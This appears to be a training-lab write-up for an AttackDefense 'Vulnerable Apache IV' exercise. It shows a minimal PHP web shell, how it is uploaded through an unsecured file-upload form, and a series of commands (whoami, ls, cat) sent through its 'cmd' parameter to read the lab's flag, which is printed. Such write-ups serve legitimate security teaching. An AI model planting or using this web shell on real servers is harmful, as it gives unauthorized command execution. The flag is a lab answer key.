











<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">Vulnerable Apache IV </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=200>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Infrastructure Attacks : Apache </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

The target server has not been properly secured against arbitrary file upload and execution vulnerability. 

**Objective:** Your objective is to upload a web shell, execute arbitrary commands on the server and retrieve the flag! 

**Solution: ![ref1]**

**Step 1:** Inspect the web application. 

**URL:** http://43w7l97ax3h9bbwq7pkcnkafd.public2.attackdefenselabs.com/ 

**Step 2:** Create a simple web shell. 

Save the below given php script as shell.php 

<?php 

$output = shell\_exec($\_GET["cmd"]); echo "<pre>$output</pre>"; 

?> 

**Step 3:** Upload the webshell to the web server. ![ref1]

Click on the browser button and upload the php script. 

**Step 4:** Click on the hyperlink generated after uploading the php script  

**URL:** http://43w7l97ax3h9bbwq7pkcnkafd.public2.attackdefenselabs.com/uploads/shell.php ![ref1]

No output was returned since cmd parameter was not specified.  **Step 5:** Execute system commands through “cmd” GET parameter. **Command:** whoami 

**URL: **http://43w7l97ax3h9bbwq7pkcnkafd.public2.attackdefenselabs.com/uploads/shell.php?cmd=wh oami** 

**Step 6:** Enumerate files stored on the web server. **Command:** pwd 

**URL: ![ref1]**http://43w7l97ax3h9bbwq7pkcnkafd.public2.attackdefenselabs.com/uploads/shell.php?cmd=pw d 

**Command:** ls -l /app/ 

**URL:** http://43w7l97ax3h9bbwq7pkcnkafd.public2.attackdefenselabs.com/uploads/shell.php?cmd=ls+ -l+/app/ 

The flag location is revealed. 

**Step 7:** Retrieve the flag 

**Command:** cat /app/127331690c-flag 

**URL: ![ref1]**http://43w7l97ax3h9bbwq7pkcnkafd.public2.attackdefenselabs.com/uploads/shell.php?cmd=cat +/app/127331690c-flag 

**Flag:** 6c2bbb8bb50605295bcb2ead4f308eed 

**References:  ![ref2]**

1\. Apache httpd (<https://httpd.apache.org/>)  

[ref1]: Aspose.Words.c5fd9689-79f7-4db3-9d0f-2a932fd0fde3.003.png
[ref2]: Aspose.Words.c5fd9689-79f7-4db3-9d0f-2a932fd0fde3.013.png
